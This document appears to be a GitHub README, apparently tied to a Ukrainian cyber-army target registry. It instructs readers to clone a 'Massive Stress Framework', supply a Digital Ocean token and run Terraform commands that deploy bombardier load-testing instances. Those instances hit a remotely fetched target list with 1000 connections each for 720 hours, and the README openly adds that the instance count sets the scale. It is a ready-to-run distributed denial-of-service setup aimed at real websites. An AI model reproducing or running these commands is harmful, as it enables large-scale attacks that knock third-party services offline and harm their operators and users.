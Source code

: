 # Registry of toxic resources 
https://raw.githubusercontent.com/cyber-army-of-ukraine/toxic-resources/master/resources.txt

## How to stop
Feel free to use any tool you wish and synchronize it with resources registry.

If you don't know how to scale and run it in cloud feel free to use [Massive Stress Framework](https://github.com/ynovel/massivestress).  
1. Clone repository.
   ```shell
    git clone https://github.com/ynovel/massivestress.git
    ```
2. [Istall Terraform](https://learn.hashicorp.com/tutorials/terraform/install-cli#install-terraform).
3. Retrieve access token from your cloud provider.
4. Choose your bundle and run commands (below).

### Available bundles:
* Cloud "**Digital Ocean**", Runner "**alpine/bombardier**". Run in command line:
```shell
cd massivestress # path where cloned ynovel/massivestress repository is placed
export DIGITALOCEAN_ACCESS_TOKEN="<CHANGE TO YOUR PERSONAL ACCESS TOKEN>"
cd keys
/bin/sh gen_ssh_keys.sh
cd ../terraform/digital_ocean
terraform init
echo -e 'runner_resources_url = "https://raw.githubusercontent.com/hem017/cytro/master/targets_all.txt"
runner_bombardier_connections_per_resource = 1000
instance_count = 3
instance_region = "fra1"
instance_type = "s-2vcpu-2gb"
runner_bombardier_duration = "720h"
' > terraform.tfvars
terraform apply # type "yes"
```
_instance_count_ config parameter stand for scalability :)